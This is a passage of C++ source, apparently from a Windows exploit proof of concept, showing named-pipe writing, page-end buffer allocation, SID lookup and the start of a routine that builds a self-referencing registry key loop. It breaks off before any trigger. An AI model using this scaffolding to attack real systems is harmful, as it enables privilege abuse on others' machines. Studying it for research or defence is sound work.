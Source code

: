 ```C++
	if (!WriteFile(g_hPipe, pInput, dwInSize, &dwBytesWritten, NULL))
	{
		printf("WriteFile 2 Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}

	return TRUE;
}

PVOID AllocPrecise(DWORD dwSize)
{
	DWORD dwPageSize = ((dwSize + 4096 - 1) / 4096) * 4096;
	PBYTE pOffset = (PBYTE)VirtualAlloc(NULL, dwPageSize, MEM_COMMIT, PAGE_READWRITE);

	if (dwSize % 0x1000 == 0)
	{
		return pOffset;
	}
	pOffset += 4096 - (dwSize % 4096);
	return pOffset;
}
/////////////////////////////
// End of common pipe code //
/////////////////////////////

static PSTR GetUserSid()
{
	DWORD dwSize;
	PSTR pszStringSid;
	HANDLE hToken;

	OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY, &hToken);
	GetTokenInformation(hToken, TokenUser, NULL, 0, &dwSize);

	PTOKEN_USER pTokenUser = (PTOKEN_USER)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, dwSize);

	GetTokenInformation(hToken, TokenUser, pTokenUser, dwSize, &dwSize);

	if (!ConvertSidToStringSidA(pTokenUser->User.Sid, &pszStringSid))
	{
		return NULL;
	}

	return pszStringSid;
}

typedef VOID(NTAPI *fRtlInitUnicodeString)(PUNICODE_STRING DestinationString, PCWSTR SourceString);

typedef NTSTATUS(__stdcall *fNtSetValueKey)(
	HANDLE  KeyHandle,
	PUNICODE_STRING  ValueName,
	ULONG  TitleIndex,
	ULONG  Type,
	PVOID  Data,
	ULONG  DataSize
	);

BOOL SetupRegistry()
{
	// Create a registry key in HKCU\aaa\bbb where bbb points back to aaa. Therefore if you recurse
	// into bbb you go back into yourself.

	WCHAR szRegOriginalKey[MAX_PATH] = { 0 };
```